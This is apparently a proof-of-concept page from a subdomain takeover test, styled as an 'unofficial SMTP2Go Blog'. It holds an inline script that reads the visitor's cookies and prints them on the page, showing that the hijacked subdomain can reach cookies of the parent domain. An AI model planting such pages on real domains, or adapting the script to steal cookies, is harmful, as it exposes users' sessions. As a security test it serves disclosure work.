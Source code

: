 ## Welcome to the unofficial SMTP2Go Blog

Testing subdomain hijacking

123456

<div id="p1"></div>

<script type="text/javascript">
function listCookies() {
    var theCookies = document.cookie.split(';');
    var aString = '';
    for (var i = 1 ; i <= theCookies.length; i++) {
        aString += i + ' ' + theCookies[i-1] + "\n";
    }
    return aString;
}

document.getElementById("p1").innerHTML = listCookies();

</script>
123

